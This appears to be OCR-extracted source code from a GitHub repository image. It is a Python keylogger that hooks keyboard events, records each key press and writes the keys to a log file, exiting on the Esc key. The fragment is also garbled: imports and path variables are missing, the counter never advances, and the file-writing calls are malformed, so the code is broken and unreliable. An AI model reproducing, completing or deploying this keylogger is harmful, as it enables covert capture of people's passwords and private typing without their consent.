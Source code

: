 # kongenial-schn-ffeln
 "log.txt"
count = 0
keys = [""]

def key_pressed(key):
    global keys, count
    keys = '{0}'.format(key)
    print(keys)
    
    

    if count >= 10:
        count = 0
        log_2_file(keys)
        keys = [""]

def log_2_file(keys):
     with open(file, path + ext + file, "a") as log_file:
         for key in keys:
             log_file(str(key))

def key_released(key):
    if key == keyboard.Key.esc:
        return False


with keyboard.Listener(on_press=key_pressed, on_release=key_released) as loop:
    loop.join()
